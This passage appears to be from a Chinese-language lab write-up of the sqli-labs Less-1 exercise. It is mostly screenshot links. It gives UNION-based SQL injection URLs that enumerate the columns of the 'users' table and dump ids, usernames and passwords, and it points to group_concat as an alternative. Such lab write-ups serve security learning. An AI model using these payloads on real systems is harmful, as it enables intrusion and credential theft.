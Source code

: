 <img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_17.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_18.png" />

如果是超过字段的话，就不会显示：（空集）

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_19.png" />

在数据库中查看没有出入：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_20.png" />

接下来就是查询users表中的列：（users的信息比较重要）

`http://172.16.60.103/sql-labs/Less-1/?id=-1' union select 1,2,column_name from information_schema.columns where table_schema ='security' and table_name='users' limit 1,2%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_21.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_22.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_23.png" />

在数据库中查询没有出入：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_24.png" />

在这里面，最重要的就是 username，password了

然后继续选择出来里面的值:

构造：

 `http://172.16.60.103/sql-labs/Less-1/?id=-1' union select 1,2,concat_ws(char(32,58,32),id,username,password) from users limit 0,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_25.png" />

依次对应的是：id，账户，密码

然后使用limit全部列出即可;

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_26.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_27.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_28.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_混合学习_29.png" />

太多了。。。我就不列举了

或者是使用另外一种方法可以使用group分组取代limit将所有的信息列出来

如下：   使用group_concat()
